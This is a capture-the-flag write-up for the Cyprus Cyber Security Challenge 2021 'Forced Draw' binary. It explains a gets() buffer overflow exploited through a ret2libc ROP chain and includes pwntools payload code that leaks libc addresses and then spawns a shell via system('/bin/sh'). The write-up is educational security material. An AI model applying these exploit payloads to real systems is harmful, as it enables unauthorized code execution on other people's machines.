




# Cyprus Cyber Security Challenge 2021 CTF
## Crypto - Forced Draw Writeup


### Description:
This your chance to have a talk with Beth Harmon. We created this AMA(Ask Me Anything) service to provide the opportunity to simpletons like you to peek inside the mind of a genius like Beth Harmon. Ask anything, don't be rude, don't be a brute and who knows you might actually get her to disclose some of her secrets :)

### Static Analysis:

Analyze with Ghidra: 


We know that ```gets()``` is really bad, even the manual states that we should keep away from it. And what security mitigations are in the binary? 



A classic Buffer Overflow wont work because the stack is marked as Non-Executable, however, the Stack Canary is disabled, that means we can overflow the buffer without issues. We need somehow to get a shell. That can happen using various methods, calling ```system()``` or using the ```execve()``` syscall. 

After checking the gadgets, there are none that modify the ```RAX``` register, that means we can't call any other syscalls. This is a classis **```ret2libc```** attack. 

Since the ```libc``` library is dynamicly linked into the binary every function is available to us, if we can find a way to call it or as the name suggests return to it.

### Chain of Thought
We need to find a way to call ```system()``` with the right arguments to get a shell, in out case a pointer to a string containing ```"/bin/sh"```. However the ```libc``` library is linked at a random offset each time the program is runned, without knowing that address or offset for that matter, we can't know where ```system()``` lies. Regardless of the ```ASLR``` status, we still need to find the version of ```libc``` in the system.

In order to find the ```libc``` base address we need to firstly find its version. Then subtract a function in the local copy of ```libc``` from the address of that function that's loaded into the binary at runtime, thats our offset

```
offset = puts@pwn - puts@libc
```

Now, in order to leak the addresses of functions we need to call the ```puts```, with the address of the function we want to leak as argument. We can do that using **```ROP```**, Return Oriented Programming. 

In the traditional Buffer Overflow attacks, we'd jump to the stack where we control code, however this time the NX bit is set. With Ropping we can circumvent that by jumping to small pieces of code (located inside the binary itself) called ```Gadgets``` (a series of instructions ending in ```ret```). In that way we never leave the ```code``` section. The ```ret``` instruction is crucial because that's what is going to keep us in charge of the code redirection. 

From the ```x86``` manual the ```ret``` instruction: 
```
Transfers program control to a return address located on the top of the stack. [...]
```

That means we can chain multiple ```Gadgets``` together to achieve extended functionality. That's called a ROP Chain. If we control the stack we can overwrite the return address with the address of a ```Gadget``` and then after that the address of another. When the First one finishes the ```ret``` instruction will be called and then our second ```Gadget```'s address will be on the stack and code execution will be redirected there.

Okay enough talking, let's get pwning!

### Exploiting:
I'm using ```pwntools``` (```pip install pwntools```) and if you don't, you should

Use ```pwn cyclic``` to identify the length of the buffer inside the stack. In our case is 136 bytes. So we know that after 136 bytes we're writing into the return pointer. 

In the ```64bit``` calling convention the first argument is passed into the ```RDI``` register. So we use the address of the ```pop rdi, ret``` gadget as a return address and after that the address we want to leak, in our case the linked address of ```puts```. Now the ```RDI``` register has the address of ```puts``` and then we can call ```puts``` to print that address. Using the same idea we can leak the ```gets```' address as well. 

```python
# 1.) Leak puts() address address
    payload = junk 
    # pop rdi, ret gadget
    payload += p64(pop_rdi)
    # load the address of puts into rdi
    payload += p64(elf.got['puts'])
    # print address of puts
    payload += p64(puts)
    # leak gets as well
    payload += p64(ret)
    payload += p64(pop_rdi)
    payload += p64(elf.got['gets'])
    payload += p64(puts)
    # return to main
    payload += p64(main)

    sl(payload)
```

So after overflowing the buffer the following will occur:

1. Code is redirected to ```pop rdi, ret```.
2. The address on top of the stack is the address of ```puts``` in the ```GOT```, which will be pushed into the ```RDI``` register.
3. The address on top of the stack is now the ```puts``` function and when the ```ret``` instruction takes turn, ```puts``` will be executed and print whatever it has as an argument in ```RDI```.
4. The same will occur for leaking ```gets``` after that ```main``` will be called again.

By having the offests we can download a copy of ```libc``` from [BluKat](https://libc.blukat.me)





After finding the right version of ```libc``` we need to caclulate the offsets in our script in order to find the correct address of ```"/bin/sh"```.


Having everything set up, we can now exploit the system.

We overflow the buffer and redirect code execution to the ```pop rdi, ret``` gadget again, after that we sent the string ```"/bin/sh"```, remember we fixed the offsets beforehand. Finaly we return into ```system()``` and it will execute with our string as argument.

```python
    payload = junk
    payload += p64(pop_rdi)
    # load the address of /bin/sh into rdi register after calculating the offsets
    payload += p64(next(libc.search(b'/bin/sh')))
    payload += p64(ret)
    # execute system() and get shell
    payload += p64(libc.symbols['system'])

    sl(payload)

    p.interactive()
```

Switch into an interactive shell and profit!?


